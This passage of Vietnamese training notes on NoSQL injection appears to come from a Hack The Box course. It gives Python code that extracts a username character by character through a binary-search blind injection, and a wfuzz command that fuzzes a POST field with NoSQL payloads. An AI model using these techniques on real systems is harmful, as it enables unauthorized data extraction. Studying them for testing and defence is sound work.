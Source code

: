    ```python
   ```

5. **Tối ưu hóa với tìm kiếm nhị phân**:
   - Sử dụng tìm kiếm nhị phân để giảm số lượng yêu cầu, bằng cách chia đôi phạm vi ký tự mỗi lần dò ký tự tiếp theo.
   
   **Code cho tìm kiếm nhị phân**:
   ```python
   # Tìm kiếm nhị phân
   num_req = 0
   username = "HTB{"
   i = 4  # Bắt đầu từ ký tự thứ 5

   while username[-1] != "}":
       low, high = 32, 126  # Phạm vi ký tự ASCII

       while low <= high:
           mid = (low + high) // 2
           if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
               low = mid + 1
           elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
               high = mid - 1
           else:
               username += chr(mid)
               break

       i += 1

   print("Username:", username)
   print("Requests:", num_req)
   ```

6. **So sánh kết quả**:
   - **Tìm kiếm tuyến tính** có thể yêu cầu đến hàng ngàn yêu cầu, trong khi **tìm kiếm nhị phân** chỉ yêu cầu một phần nhỏ số yêu cầu và thời gian hoàn thành nhanh hơn đáng kể.

---
# 9. Các công cụ hỗ trợ kiểm tra và khai thác NoSQL Injection

1. **Fuzzing với Wordlists**:
   - **Fuzzing** là kỹ thuật kiểm tra dạng black-box, trong đó người kiểm thử đưa vào một lượng lớn dữ liệu để xem liệu có gây ra lỗi hay không.
   - Đối với NoSQL Injection, ta sử dụng các **wordlists** chứa các payload tiềm năng để phát hiện phản hồi khác thường từ máy chủ.
   - **Ví dụ với `wfuzz`**:
     ```bash
     wfuzz -z file,/usr/share/seclists/Fuzzing/Databases/NoSQL.txt -u http://127.0.0.1/index.php -d '{"trackingNum": FUZZ}'
     ```
     - `-z file`: chỉ định wordlist.
     - `-u`: URL mục tiêu.
     - `-d`: dữ liệu POST (đặt `FUZZ` vào vị trí `trackingNum` để thử các payload từ wordlist).
   - Trong kết quả, nếu có payload nào đó khiến phản hồi từ máy chủ thay đổi đáng kể (ví dụ: độ dài trả về lớn hơn), điều này ám chỉ rằng payload đó có thể thành công, cần kiểm tra kỹ hơn.
